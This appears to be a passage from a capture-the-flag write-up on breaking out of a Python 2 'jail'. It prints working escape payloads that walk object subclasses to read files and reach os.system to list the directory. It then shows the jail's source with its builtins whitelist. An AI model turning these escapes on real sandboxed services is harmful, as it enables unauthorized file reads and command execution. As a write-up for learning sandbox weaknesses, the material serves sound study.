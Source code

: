 If we get an instance of a `()` class, and exploit the fact that we can potentially get a useful subclass out of it, we are able to perform file reads like so (again, go read that writeup...):

```python
>>> print(().__class__.__bases__[0].__subclasses__()[40]('flag.txt', 'r').read())
The flag is in the source code.
```

Dicks. So, we need to find the source code. To do so, I resorted to finding a way to be able to do a `ls` in the current directory, taking advantage of the fact that `linecache` from `catch_warnings` imports `os`:

```python
>>> print(().__class__.__bases__[0].__subclasses__()[59].__repr__.im_func.func_globals["linecache"].__dict__['os'].__dict__['system']('ls'))

>>> print(().__class__.__bases__[0].__subclasses__()[59].__repr__.im_func.func_globals["linecache"].__dict__['os'].__dict__['system']('ls'))
flag.txt
jail.py
start.sh
0
```

Sick!! So `jail.py` looks like what we want! Updating our file read command from before, but now reading `jail.py`:

```python
>>> print(().__class__.__bases__[0].__subclasses__()[40]('jail.py', 'r').read())
#!/usr/bin/python

import sys

class Sandbox(object):
    def execute(self, code_string):
        exec(code_string)
        sys.stdout.flush()

sandbox = Sandbox()

_raw_input = raw_input

main = sys.modules["__main__"].__dict__
orig_builtins = main["__builtins__"].__dict__

builtins_whitelist = set((
    #exceptions
    'ArithmeticError', 'AssertionError', 'AttributeError', 'Exception',

    #constants
    'False', 'None', 'True',

    #types
    'basestring', 'bytearray', 'bytes', 'complex', 'dict',

    #functions
    'abs', 'bin', 'dir', 'help'

    # blocked: eval, execfile, exit, file, quit, reload, import, etc.
))

for builtin in orig_builtins.keys():
    if builtin not in builtins_whitelist:
        del orig_builtins[builtin]

print("Find the flag.")
sys.stdout.flush()
```